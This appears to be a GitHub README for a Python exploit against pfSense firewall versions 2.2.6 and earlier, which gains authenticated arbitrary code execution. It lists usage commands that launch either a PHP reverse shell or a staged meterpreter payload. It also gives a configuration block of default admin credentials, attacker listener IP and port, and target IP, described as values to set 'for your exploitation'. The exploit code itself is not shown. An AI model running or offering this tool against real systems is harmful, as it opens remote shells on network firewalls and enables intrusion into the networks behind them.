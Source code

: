 # Authenticated Arbitrary Code Execution on pfSense <= 2.2.6

### description

pfSense Community Edition firewall version 2.2.6 and below is vulnerable to arbitrary code execution exploit as an authenticated non-administrative user. The initial advisory came from [Security Assessment](https://www.security-assessment.com/files/documents/advisory/pfsenseAdvisory.pdf) in April 2016, however until very recently there was not a public exploit for this vulnerability. This is my version of this exploit.

### php reverse shell payload

![nc_catch](img/nc.gif)

### meterpreter staged payload

![msf_catch](img/msf.gif)

### usage

This exploit can use either a pure PHP reverse shell or a meterpreter staged payload

*nc reverse shell*

```
python3 pfsense_exec.py nc
```

*meterpreter staged payload*

```
python3 pfsense_exec.py msf
```

### variables to set

set these variables to their appropriate values for your exploitation

```
username = 	"admin" 			# default is admin
password = 	"pfsense"			# default is pfsense
listener_ip = 	"10.0.0.1"
listener_port = "4444"
target_ip = 	"10.0.0.2"
...
proxied_url = 	"https://127.0.0.1:31337/"	# if you want to proxy
```
